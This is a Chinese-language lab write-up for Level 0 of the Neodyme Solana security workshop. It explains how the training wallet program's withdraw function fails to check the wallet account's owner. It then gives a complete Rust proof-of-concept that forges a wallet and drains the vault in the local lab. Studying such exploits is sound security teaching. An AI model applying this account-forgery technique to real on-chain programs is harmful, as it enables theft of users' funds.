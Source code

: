 ```yaml
---
title: Neodyme：Solana Security Workshop
tags:
    - blockchain
    - smart contract
    - solana
---
```


## Setup - Full

```bash
$ docker run --name breakpoint-workshop -p 2222:22 -p 8383:80 -e PASSWORD="password" neodymelabs/breakpoint-workshop:latest-code-prebuilt
# visit http://localhost:8383
```

### Compiling the Contracts and Running the Exploits

- PoC 框架代码位于 `pocs` 目录下
- VSCode 中 `Ctrl+Shift+B` 再选择 `level`
- 或通过命令行的方式

    ```bash
    # compile all contracts
    cargo build-bpf --workspace

    # run level0 exploit
    RUST_BACKTRACE=1 cargo run --bin level0
    ```

### Exploit Outline

初始持有 1 SOL，目标是获得更多的 SOL

## Level 0 - A First Vulnerability

- 查看 `WalletInstruction`，初步了解程序的功能

    ```rs
    pub enum WalletInstruction {
        /// Initialize a Personal Savings Wallet
        ///
        /// Passed accounts:
        /// (1) Wallet account
        /// (2) Vault accounts
        /// (3) Authority
        /// (4) Rent sysvar
        /// (5) System program
        Initialize,
        /// Deposit
        ///
        /// Passed accounts:
        /// (1) Wallet account
        /// (2) Vault accounts
        /// (3) Money Source
        Deposit { amount: u64 },
        /// Withdraw from Wallet
        ///
        /// Passed accounts:
        /// (1) Wallet account
        /// (2) Vault accounts
        /// (3) Authority
        /// (4) Target Wallet account
        Withdraw { amount: u64 },
    }
    ```

- 程序入口点函数 `processor::process_instruction` 反序列化 `instruction_data` 并调用指定函数

    ```rs
    pub fn process_instruction(
        program_id: &Pubkey,
        accounts: &[AccountInfo],
        mut instruction_data: &[u8],
    ) -> ProgramResult {
        match WalletInstruction::deserialize(&mut instruction_data)? {
            WalletInstruction::Initialize => initialize(program_id, accounts),
            WalletInstruction::Deposit { amount } => deposit(program_id, accounts, amount),
            WalletInstruction::Withdraw { amount } => withdraw(program_id, accounts, amount),
        }
    }
    ```

- 调用其它程序可通过 `invoke()` 或 `invoke_signed()`（当需要 PDA 作为 instruction 的 signer 时）
- `withdraw` 中 `wallet`、`vault` 等账户均由调用者提供，且未检查账户 `wallet` 的 `owner`，因而可以创建一个攻击者作为 `authority` 的 `wallet` 账户，从而调用 `withdraw` 获取 SOL

    ```rs
    fn withdraw(_program_id: &Pubkey, accounts: &[AccountInfo], amount: u64) -> ProgramResult {
        let account_info_iter = &mut accounts.iter();
        let wallet_info = next_account_info(account_info_iter)?;
        let vault_info = next_account_info(account_info_iter)?;
        let authority_info = next_account_info(account_info_iter)?;
        let destination_info = next_account_info(account_info_iter)?;
        let wallet = Wallet::deserialize(&mut &(*wallet_info.data).borrow_mut()[..])?;

        assert!(authority_info.is_signer);
        assert_eq!(wallet.authority, *authority_info.key);
        assert_eq!(wallet.vault, *vault_info.key);

        if amount > **vault_info.lamports.borrow_mut() {
            return Err(ProgramError::InsufficientFunds);
        }

        // Subtract will fail if overflow
        **vault_info.lamports.borrow_mut() -= amount;
        **destination_info.lamports.borrow_mut() += amount;

        Ok(())
    }
    ```

### Exploit

```rs
fn hack(env: &mut LocalEnvironment, challenge: &Challenge) {

    // Step 0: how much money do we want to steal?
    let amount = env.get_account(challenge.vault_address).unwrap().lamports;
    // `unwrap` returns a `panic` when it receives a `None`

    // Step 1: a fake wallet with the same vault
    let hacker_wallet = level0::Wallet {
        authority: challenge.hacker.pubkey(),
        vault: challenge.vault_address,
    };
    let fake_wallet = keypair(233);
    let mut hack_wallet_data: Vec<u8> = vec![];

    hacker_wallet.serialize(&mut hack_wallet_data).unwrap();
    
    env.create_account_with_data(&fake_wallet, hack_wallet_data);
    
    // Step 2: Use fake wallet to withdraw funds from the real vault to the attacker
    let instruction = Instruction {
        program_id: challenge.wallet_program,
        accounts: vec![
            AccountMeta::new(fake_wallet.pubkey(), false),
            AccountMeta::new(challenge.vault_address, false),
            AccountMeta::new(challenge.hacker.pubkey(), true),
            AccountMeta::new(challenge.hacker.pubkey(), false),
            AccountMeta::new_readonly(system_program::id(), false),
        ],
        data: level0::WalletInstruction::Withdraw { amount }.try_to_vec().unwrap(),
    };
    env.execute_as_transaction(&[instruction], &[&challenge.hacker]).print_named("Hack: hacker withdraw");
}
```

### 参考资料

- [Calling Between Programs | Solana Docs](https://docs.solana.com/developing/programming-model/calling-between-programs)
- [Environment in poc_framework - Rust](https://docs.rs/poc-framework/0.1.2/poc_framework/trait.Environment.html)
- [Option & unwrap - Rust By Example](https://doc.rust-lang.org/rust-by-example/error/option_unwrap.html)